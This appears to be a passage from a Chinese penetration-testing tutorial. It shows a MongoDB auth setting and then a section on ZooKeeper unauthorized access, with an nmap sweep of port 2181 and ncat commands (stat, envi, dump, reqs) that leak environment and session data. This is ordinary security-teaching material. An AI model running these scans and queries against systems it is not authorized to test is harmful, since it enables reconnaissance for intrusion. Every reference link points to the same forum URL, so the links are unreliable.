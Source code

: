 ```
/etc/mongodb.conf　　
auth = 
true
```

其他:[http://www.mottoin.com/105609.html](https://bbs.ichunqiu.com/thread-39749-1-1.html?from=beef)



---

# 0×04 ZooKeeper未授权访问

From: [http://www.polaris-lab.com/index.php/archives/41/](https://bbs.ichunqiu.com/thread-39749-1-1.html?from=beef)  
[http://www.majunwei.com/category/201612011952003333/](https://bbs.ichunqiu.com/thread-39749-1-1.html?from=beef)  
[http://www.mottoin.com/92742.html](https://bbs.ichunqiu.com/thread-39749-1-1.html?from=beef)  
[http://cve.scap.org.cn/CVE-2014-0085.html](https://bbs.ichunqiu.com/thread-39749-1-1.html?from=beef)  
[http://ifeve.com/zookeeper\_guidetozkoperations/](https://bbs.ichunqiu.com/thread-39749-1-1.html?from=beef)  
[http://blog.csdn.net/u011721501/article/details/44062617](https://bbs.ichunqiu.com/thread-39749-1-1.html?from=beef)

ZooKeeper是一个分布式的，开放源码的分布式应用程序协调服务，是Google的Chubby一个开源的实现，是Hadoop和Hbase的重要组件。它是一个为分布式应用提供一致性服务的软件，提供的功能包括：配置维护、域名服务、分布式同步、组服务等。

## 1.扫描探测

ZooKeeper默认开启在2181端口，在未进行任何访问控制情况下，攻击者可通过执行envi命令获得系统大量的敏感信息，包括系统名称、Java环境。  
`./zkCli.sh -server  127.0.0.1 2181`

```
nmap -sS -p2181 -oG zookeeper.gnmap 192.168.1.0/24  
grep "Ports: 2181/open/tcp" zookeeper.gnmap | cut -f 2 -d ' ' > Live.txt  

```

## 2.攻击获取信息

* stat：列出关于性能和连接的客户端的统计信息。  
  echo stat \|ncat 127.0.0.1 2181

* ruok：测试服务器是否运行在非错误状态。  
  echo ruok \|ncat 127.0.0.1 2181

* reqs：列出未完成的请求。  
  echo reqs \|ncat 127.0.0.1 2181

* envi：打印有关服务环境的详细信息。
  echo envi \|ncat 127.0.0.1 2181

dump：列出未完成的会话和临时节点。  
echo dump \|ncat 127.0.0.1 2181
